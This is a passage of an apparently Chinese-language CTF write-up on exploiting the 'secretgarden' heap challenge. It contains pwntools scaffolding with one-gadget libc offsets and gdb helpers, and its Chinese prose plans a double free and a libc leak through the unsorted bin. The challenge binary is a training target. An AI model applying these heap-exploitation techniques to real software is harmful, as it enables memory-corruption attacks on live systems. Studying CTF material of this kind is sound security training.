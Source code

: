 ```python
ru      = lambda delims             :io.recvuntil(delims)

# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\0'))
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# one gadget
one_gadget_16_04_32 = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6]
one_gadget_16_04_64 = [0x45216,0x4526a,0xf02a4,0xf1147]
one_gadget_18_04_64 = [0x4f2c5,0x4f322,0x10a38c]

# base addr
gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))

add(500,"1","1")
debug(0x107b,"x /100bx "+hex(gdb_libc_base+libc.symbols['__malloc_hook']-0x50))
add(500,"1","1")
io.interactive()
```

## 利用

### 堆排布泄露libc

因为保护全开，所以我们虽然可以用DoubleFree去修改部分内存，但是不知道写哪，所以先要进行信息泄露。思路仍然是把堆块扔到unsortedbin里，但是因为del花后，存在标记位会被清空，无法去逛花园把信息打印出来，所以还是需要再次申请回来的。并且在种花时时通过read库函数进行名字的输入，并不会在结尾处添加空字符，满足泄露条件。故首先尝试把堆块扔到unsorted bin中：

```python
from pwn import *

# challenge information
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./secretgarden")
libc   = ELF("./libc_64.so.6")
io     = process(myelf.path,env={"LD_PRELOAD" : libc.path})

# functions for quick script
sla     = lambda delim,data         :io.sendlineafter(delim, data) 

# misc functions
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)

```
